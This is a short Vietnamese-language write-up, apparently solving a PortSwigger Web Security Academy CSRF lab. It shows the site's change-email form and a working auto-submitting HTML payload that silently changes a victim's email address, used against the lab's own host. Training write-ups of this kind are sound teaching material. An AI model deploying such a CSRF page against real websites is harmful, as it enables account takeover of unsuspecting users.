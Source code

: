 ![image](https://gist.github.com/assets/91708209/fb2bf459-ded5-42ff-831d-7eda5cab6333)

Đây là form email lấy được từ source code
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required="" type="email" name="email" value="">
    <button class="button" type="submit"> Update email </button>
</form>
```

Ta sẽ chỉnh sửa một chút để có thể gửi request tới website:<br> 
- Sửa action không còn là đường dẫn mà là URL đến chức năng update email
- Sửa form submit 

Sửa code html này để khi gửi dùng ấn vào chức năng sửa email không phải form của web thật hiện ra mà là form của attacker

```html
<html>
  <body>
    <form action="https://0a5f00de04b921f4826ac5ca0051000c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="changed&#64;changed&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

![image](https://gist.github.com/assets/91708209/be21b6d8-6b51-4ebd-9c81-b780b5687d05)

Sau khi dùng exploit server để gửi thì bây giờ email của người dùng đã được đổi thành email ta muốn

![image](https://gist.github.com/assets/91708209/8072e5a2-055b-48b3-9668-9255782ca561)


### Account sau khi giải bài tập

![image](https://gist.github.com/assets/91708209/6570f1c3-7d38-4cb7-9836-8c019c5cba12)






















